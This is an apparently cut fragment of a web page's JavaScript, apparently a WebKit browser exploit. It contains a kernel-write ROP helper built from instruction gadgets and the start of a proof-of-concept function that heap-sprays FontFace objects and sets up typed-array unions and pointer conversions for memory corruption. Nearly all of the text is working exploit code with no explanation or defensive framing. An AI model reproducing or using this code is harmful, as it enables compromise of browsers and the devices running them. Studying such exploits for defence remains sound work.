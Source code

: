             }    
            this.kwrite8_kaddr = function (offset1, offset2) {
                this.rax_kernel(offset2);
                this.push(gadgets["mov rdx, rax"]);
                this.rax_kernel(offset1);
                this.push(gadgets["mov [rax], rdx"]);
            }
            return this;
        };
    </script>
    <!--webkit-->
    <script>
        var PAGE_SIZE = 16384;
        var SIZEOF_CSS_FONT_FACE = 0xb8;
        var HASHMAP_BUCKET = 208;
        var STRING_OFFSET = 20;
        var SPRAY_FONTS = 0x100a;
        var GUESS_FONT = 8602845184;
        var NPAGES = 20;
        var INVALID_POINTER = 0;
        var HAMMER_FONT_NAME = "font8"; //must take bucket 3 of 8 (counting from zero)
        var HAMMER_NSTRINGS = 700; //tweak this if crashing during hammer time    
        function poc() {
        function hex(n)
        {
            if((typeof n) != "number")
                return ""+n;
            return "0x" + (new Number(n)).toString(16);
        }    
            var union = new ArrayBuffer(8);
            var union_b = new Uint8Array(union);
            var union_i = new Uint32Array(union);
            var union_f = new Float64Array(union);    
            var bad_fonts = [];    
            for (var i = 0; i < SPRAY_FONTS; i++)
                bad_fonts.push(new FontFace("font1", "", {}));    
            var good_font = new FontFace("font2", "url(data:text/html,)", {});
            bad_fonts.push(good_font);    
            var arrays = [];
            for (var i = 0; i < 512; i++)
                arrays.push(new Array(31));    
            arrays[256][0] = 1.5;
            arrays[257][0] = {};
            arrays[258][0] = 1.5;    
            var jsvalue = {
                a: arrays[256],
                b: new Uint32Array(1),
                c: true
            };    
            var string_atomifier = {};
            var string_id = 10000000;    
            function ptrToString(p) {
                var s = '';
                for (var i = 0; i < 8; i++) {
                    s += String.fromCharCode(p % 256);
                    p = (p - p % 256) / 256;
                }
                return s;
            }    
            function stringToPtr(p, o) {
                if (o === undefined)
                    o = 0;
                var ans = 0;
                for (var i = 7; i >= 0; i--)